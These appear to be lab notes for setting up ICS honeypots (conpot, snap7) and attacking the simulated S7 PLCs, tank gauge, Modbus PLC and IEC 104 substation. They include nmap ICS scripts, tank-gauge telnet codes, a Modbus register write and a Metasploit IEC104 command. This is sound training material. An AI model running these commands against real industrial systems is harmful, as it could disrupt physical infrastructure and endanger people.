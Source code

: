 ## A simple honeypot
sudo python3 -m honeypots --setup telnet,http,smb,vnc,snmp

## PLC Simulation 1
Change the first half part of the MAC address to 001C06 \
conpot -f --template default \
sudo nmap <IP_address> -Pn -sU -p 16100 \
sudo nmap <IP_address> -Pn -p- \
snmp-check --port 16100 <IP_Address>


## S7 PLC Simulation 2
sudo python3 \
import snap7 \
s7 = snap7.server.Server() \
s7.create() \
s7.start() \
s7.get_status()

python2 plcscan.py 192.168.168.11 \
sudo nmap 192.168.168.11 -Pn -p 102 --script ~/ICS_attack_scripts/Redpoint/s7-enumerate

msfconsole -> search Siemens
searchsploit 

## Gas Station Controller Simulation
Automatic Tank Gauge
Change the first half part of the MAC address to 00A0F6 \
conpot -f --template guardian_ast \
sudo nmap 192.168.168.12 -Pn -p 10001 --script ~/ICS_attack_scripts/Redpoint/atg-info.nse \
filetype:pdf I20100 \
https://www.veeder.com/us/sites/veeder.com.us/files/2020-09/576013-818%20-%20TLS-3XX%C2%A0Series%20Consoles%20Troubleshooting%20Guide.pdf \
https://www.ericzhang.me/gas-station-atgs-exposed-to-public/ \
telnet 192.168.168.12 10001 \
CTRL + A and I20100 \
Some function codes: \
I20100 1 In-Tank Inventory Report \
I20200 1 In-Tank Delivery Report \
I20300 1 In-Tank Leak Detect Report \
I20400 1 In-Tank Shift Inventory Report \
I20500 1 In-Tank Status Report

## Modbus PLC Simulation
sudo nmap -Pn 192.168.168.12 -p 502 --script ~/ICS_attack_scripts/Redpoint/modbus-discover.nse
metasploit modules -> search modbus

modbus read 192.168.168.12 %MW0 10
modbus write 192.168.168.12 %MW0 0 0 0 0 0 0 0 0 0 

## Pentesting a ChronoGuard Infrastructure Substation
Change the first half part of the MAC address to 001D59 \
nano .local/lib/python3.10/site-packages/conpot/templates/IEC104/snmp/snmp.xml \
Change the snmp port from 161 into 16100 \
conpot -f --template IEC104 \
sudo nmap 192.168.168.12 -p 2404 --script ~/ICS_attack_scripts/Redpoint/iec-identify.nse \
metasploit -> search iec104 \
use auxiliary/client/iec104/iec104 \
set ASDU_ADDRESS <learn_from_nmap_nse> \
check the ChronoGuard manual \
ASDU_ADDRESS 7720 \
COMMAND_ADDRESS 3348 \
COMMAND_TYPE 45 \
COMMAND_VALUE 0




  
